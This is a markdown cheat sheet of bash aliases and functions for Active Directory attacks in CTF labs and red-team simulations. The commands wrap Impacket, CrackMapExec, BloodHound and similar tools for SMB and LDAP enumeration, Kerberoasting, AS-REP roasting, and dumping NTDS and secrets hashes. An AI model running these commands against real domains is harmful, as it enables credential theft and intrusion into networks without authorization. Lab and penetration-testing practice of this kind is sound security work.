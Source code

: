 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
smbshare() { smbclient -L "\\\\$1\\" -N; } # Usage: smbshare <target>
smbconnect() { smbclient "\\\\$1\\$2"; } # Usage: smbconnect <target> <share>
smbuser() { smbclient -L "\\\\$1\\" -U "$2"; } # Usage: smbuser <target> <user>
alias smbshare='smbclient -L //TARGET -N'
alias smbconnect='smbclient //TARGET/SHARE'
alias smbuser='smbclient -L //TARGET -U'
alias enum4='enum4linux-ng -a'
enumuser() { enum4linux -u "$1" -p "$2" -a "$3"; } # Usage: enumuser <username> <password> <target>
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r TARGET_SUBNET'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
bloodhound() { bloodhound-python -u "$1" -p "$2" -dc-ip "$3" -c all; } # Usage: bloodhound <user> <password> <dc_ip>

# 🗂️ Password & Hash Dumping
secretsdump() { secretsdump.py "$1/$2:$3@$4"; } # Usage: secretsdump <domain> <user> <password> <target>
dumpntds() { secretsdump.py -just-dc "$1/$2:$3@$4"; } # Usage: dumpntds <domain> <user> <password> <dc_ip>
alias hashgrab='impacket-secretsdump'
ridbrute() { rpcclient -U "" "$1" -N -c "enumdomusers"; } # Usage: ridbrute <target>

# 📜 Kerberos Ticket Attacks
asreproast() { GetNPUsers.py "$1/" -usersfile "$2" -no-pass -dc-ip "$3"; } # Usage: asreproast <domain> <users.txt> <target>
kerberoast() { GetUserSPNs.py "$1/$2:$3" -dc-ip "$4" -request; } # Usage: kerberoast <domain> <user> <password> <target>
alias tgt='klist'
renewtgt() { kinit "$1@$2"; } # Usage: renewtgt <username> <domain>
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'
alias renewtgt='kinit USERNAME@DOMAIN'
ptt() {
  export KRB5CCNAME="FILE:/tmp/krb5cc_$(uuidgen || date +%s)"
  export KRB5_CONFIG="${HOME}/krb5.conf"
  echo "[+] KRB5CCNAME set to: ${KRB5CCNAME}"
}

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
kerbcheck() { nmap --script "krb5-enum-users" -p 88 "$1"; } # Usage: kerbcheck <target>
noauthrpc() { rpcclient -U "" -N "$1"; } # Usage: noauthrpc <target>
authrpc() { rpcclient -U "$1%$2" "$3"; } # Usage: authrpc <user> <password> <target>

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)
